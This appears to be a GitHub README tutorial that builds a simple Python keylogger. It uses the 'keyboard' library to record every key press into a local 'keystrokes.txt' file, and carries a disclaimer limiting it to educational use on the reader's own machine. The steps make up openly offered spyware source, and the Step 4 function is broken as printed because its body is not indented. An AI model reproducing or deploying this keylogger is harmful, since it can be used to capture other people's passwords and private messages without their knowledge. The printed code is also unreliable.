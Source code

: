 # Keylogger

# Disclaimer

This tutorial is for educational purposes only and should only be used on your personal system. 
# Prerequisites

Personal host, I recommend doing this in a Windows VM.

Python, code editor, Im using Visual Studio Code.

# Step 1
Install the Required Library.

Open your command prompt or terminal and execute the following command: "pip install keyboard"

# Step 2 Importing the Necessary Libraries
This library will enable us to work with keyboard inputs. Insert the following line of code:

import keyboard

# Step 3 
Define the Log File

In this example, we’ll use ‘keystrokes.txt’ as the file name. Feel free to modify it as desired. Add the following line of code:

log_file = 'keystrokes.txt'

# Step 4
Create the Key Press Event Function

    def on_key_press(event):

    with open(log_file, 'a') as f:
    
        f.write('{}\n'.format(event.name))
        
# Step 5 
Register the Key Press Event

Register the ‘on_key_press’ function to be called whenever a key is pressed. This will enable our code to capture the keystrokes. Add the following line:

keyboard.on_press(on_key_press)

# Step 6 
Finally, we want our program to wait until a key is pressed before it exits. Use the 

‘keyboard.wait()’

function to accomplish this.


# Final Code

![Screenshot 2024-07-29 114950](https://github.com/user-attachments/assets/b4c6529f-d7b0-4ef3-b638-9813c1f0cb9b)

# Step 7
Open your command prompt or terminal, navigate to the directory where the script is located, and execute the command:
cd (directory where file is stored) py keylogger.py

![Screenshot 2024-07-29 122614](https://github.com/user-attachments/assets/f943a530-664c-4562-bb25-b1f051e2e85f)

 
